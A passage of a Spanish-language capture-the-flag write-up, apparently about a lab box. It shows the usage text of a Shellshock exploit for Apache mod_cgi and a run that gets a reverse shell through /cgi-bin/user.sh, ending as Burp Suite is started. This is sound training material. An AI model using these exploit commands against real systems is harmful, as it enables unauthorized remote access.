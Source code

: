 Bien, si lo analizamos vienen instrucciones sobre cómo usarlo:
```bash
python2 Shellshock.py                            


                Shellshock apache mod_cgi remote exploit

Usage:
./exploit.py var=<value>

Vars:
rhost: victim host
rport: victim port for TCP shell binding
lhost: attacker host for TCP shell reversing
lport: attacker port for TCP shell reversing
pages:  specific cgi vulnerable pages (separated by comma)
proxy: host:port proxy

Payloads:
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

Example:

./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234
./exploit.py payload=bind rhost=1.2.3.4 rport=1234

Credits:

Federico Galatolo 2014
```
Ósea que con activarlo va a generar un Payload con una **Reverse Shell** y activara una **netcat** que nos conectara automáticamente.

Hagámoslo:
```bash
python2 Shellshock.py payload=reverse rhost=10.10.10.56 lhost=Tu_IP lport=443 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami 
shelly
```
Y listo estamos dentro.

<h2 id="PruebaExp2">Aplicando Shellshock con Burpsuite</h2>

Vamos a hacer todo este proceso por pasos:

* Inicia **BurpSuite**:
```bash
burpsuite &> /dev/null & disown
```
